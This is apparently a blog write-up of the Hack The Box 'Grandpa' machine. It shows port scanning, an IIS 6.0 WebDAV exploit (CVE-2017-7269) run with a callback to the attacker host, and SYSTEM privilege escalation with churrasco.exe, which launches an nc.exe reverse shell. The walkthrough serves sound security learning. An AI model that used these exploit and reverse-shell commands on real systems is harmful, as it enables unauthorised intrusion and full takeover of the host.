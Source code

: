 ```yaml
---
title: "Grandpa"
date: 2023-08-10T11:30:03+00:00
tags: ["web","windows","Microsoft IIS 6.0","JuicyPotato", "Churrasco"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Grandpa.png"
comments: false
description: "This is a friendly windows machine which has a vulnerability due to the low version of Microsoft IIS 6.0"
---
```


## Room Information

- Room name: Grandpa
- Difficulty level: Easy
- Room link: [https://app.hackthebox.com/machines/Grandpa](https://app.hackthebox.com/machines/Grandpa)

![/HTB/Grandpa.png](/HTB/Grandpa.png)

## Tools Used

- Nmap
- searchsploit
- gobuster
- smbserver.py
- msfvenom
- juicypotato.exe
- churrasco.exe
- nc.exe or nc64.exe

## Port ScanningOther room, other port scan.

```ruby
# Nmap 7.94 scan initiated Wed Aug 30 13:42:14 2023 as: nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn -oN escaneo 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up, received user-set (0.20s latency).
Scanned at 2023-08-30 13:42:15 EDT for 39s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Wed, 30 Aug 2023 17:42:48 GMT
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 30 13:42:54 2023 -- 1 IP address (1 host up) scanned in 40.34 seconds
```

I found 1 open ports, 80(http). So let's focus on the website…

## Enumeration

As usual, I did a scan with gobuster, but this time I know that the shots are not going that way, as I got practically nothing useful.

![Untitled](/HTB/web-grandpa.png)

So how on the **Granny** machine I ran the `davtest` program, but didn't get much:

```ruby
┌──(kali㉿kali)-[~/HTB/grandpa]
└─$ davtest -url http://10.10.10.14
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.14
********************************************************
NOTE	Random string for this session: 3CNJeh
********************************************************
 Creating directory
MKCOL		FAIL
********************************************************
 Sending test files
PUT	cfm	FAIL
PUT	jsp	FAIL
PUT	cgi	FAIL
PUT	html	FAIL
PUT	asp	FAIL
PUT	pl	FAIL
PUT	shtml	FAIL
PUT	txt	FAIL
PUT	php	FAIL
PUT	aspx	FAIL
PUT	jhtml	FAIL

********************************************************
/usr/bin/davtest Summary:
```

At this point I started to get frustrated…

## Exploiting

I started looking for versions of everything to see if they were subject to any vulnerability until I found one that corresponded to **Microsoft IIS version 6.0**, and I exploited it 😎

pd: **CVE-2017-7269**, website → [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6 reverse shell](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell)

```ruby
python2 exploit.py 10.10.10.14 80 10.10.14.6 443
```

![Untitled](/HTB/pwn-grandpa.png)

## Escalation of privileges

The first thing I always do in **windows** is to see what user we are and if we can access any input flag. In this case I could not access any flag, so I had to escalate privileges. The next thing I did was to see the permissions I had, with `whoami /priv`.

```ruby
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
**-> SeImpersonatePrivilege        Impersonate a client after authentication Enabled** 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

When I saw that the `SeImpersonatePrivilege` permission was enabled, the vulnerability called `JuicyPotato` came to my mind. 

So I will look for this vulnerability but according to the version of the victim machine because otherwise it would have no effect and we would waste our time. So I made a `systemminfo` and by the way I secured it in case I had to use it later for a vulnerability scan with `python2 windows-exploit-suggester.py -d 2023-08-30-mssb.xls -i /home/kali/HTB/granny/systemminfo.txt`. I got the following:

```ruby
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 4 Minutes, 10 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 808 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,342 MB
Page File: In Use:         128 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Now that I knew I was dealing with a `Microsoft(R) Windows(R) Server 2003, Standard Edition` all that was left was to look it up on the internet and download the exploit. The website → https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

After this, the only thing left to do was to pass the exploit (churrasco.exe) through the smbserver to the victim machine together with the exploit I download previously called nc.exe or nc64.exe.

pd: website of nc.exe or nc64.exe → https://github.com/int0x33/nc.exe/blob/master/nc.exe

```ruby
C:\WINDOWS\Temp\privesc>churrasco.exe "\\10.10.14.6\\smbFolder\nc.exe -e cmd 10.10.14.6 443"
churrasco.exe "\\10.10.14.6\\smbFolder\nc.exe -e cmd 10.10.14.6 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

But before running this I set myself to listen on port 443, on my machine.

Then I was root 😎

```ruby
C:\DOCUME~1\Administrator\Desktop>whoami
whoami
nt authority\system

C:\DOCUME~1\Administrator\Desktop>typ root.txt
```

## Lessons Learned

- What insights did you gain from the room?
    
    I learned more about Microsoft IIS.
    
- Were there any novel tools or techniques employed?
    
    No
